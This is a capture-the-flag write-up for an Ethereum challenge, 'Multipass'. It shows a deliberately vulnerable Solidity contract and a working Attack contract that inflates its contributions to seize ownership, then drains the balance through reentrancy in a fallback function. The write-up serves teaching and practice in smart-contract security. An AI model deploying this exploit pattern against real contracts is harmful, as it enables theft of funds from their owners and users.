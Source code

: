 # Warmup

## Setup

The challenge is available at http://ethereum.sharkyctf.xyz/level/3

Before starting, it is recommended to follow the suggested steps at http://ethereum.sharkyctf.xyz/help to setup Metamask, get Ether from a Ropsten faucet, and Remix IDE.

## Challenge

The contract to attack is the following :

```solidity
pragma solidity = 0.4.25;

contract Multipass {
    address public owner;
    uint256 public money;
    
    mapping(address => int256) public contributions;
    
    bool public withdrawn;
    
    constructor() public payable {
        contributions[msg.sender] = int256(msg.value * 900000000000000000000);
        owner = msg.sender;
        money = msg.value;
        withdrawn = false;
    }
    
    function gift() public payable {
        require(contributions[msg.sender] == 0 && msg.value == 0.00005 ether);
        contributions[msg.sender] = int256(msg.value) * 10;
        money += msg.value;
    }
  
    function takeSomeMoney() public {
        require(msg.sender == owner && withdrawn == false);
        uint256 someMoney = money/20;
        if(msg.sender.call.value(someMoney)()){
            money -= someMoney;
        }
        withdrawn = true;
    }
    
    function contribute(int256 _factor) public {
        require(contributions[msg.sender] != 0 && _factor < 10);
        contributions[msg.sender] *= _factor;
    }
    
    function claimContract() public {
        require(contributions[msg.sender] > contributions[owner]);
        owner = msg.sender;
    }
}
```

The goal is then to take all the money of the contract.

## Hint

Can you call `takeSomeMoney()` several times ?

## Solution

This is a classic reentrancy exploit, where you are able to recursively call the same function several time in order to siphon all the money of a contract.

In order to exploit it, we must have another contract with a fallback method which will be called by the Victim contract, and because the state is not updated before calling the Attack contract, we will be able to execute several times `takeSomeMoney()` until no fund is left. 

To attack this contract, we will create another contract called Attack, which will be called to attack the first contract.

In the same Solidity file, add the following code :

```solidity
contract Attack {
    Multipass public target;
    
    constructor(address _adress) public payable{
        target = Multipass(_adress);
        target.gift.value(0.00005 ether)();
    }
    
    function multiplyContributions() public {
        address contractAdress = address(this);
        
        while (target.contributions(contractAdress) <= target.contributions(target.owner())) {
            target.contribute(9);
        }
    }
    
    function takeOwnership() public returns(address){
        multiplyContributions();
        target.claimContract();
    }
    
    function attack() public {
        takeOwnership();
        target.takeSomeMoney();
    }
    
    function () payable public {
        while (!target.withdrawn()) {
            target.takeSomeMoney();
        }
    }
} 
```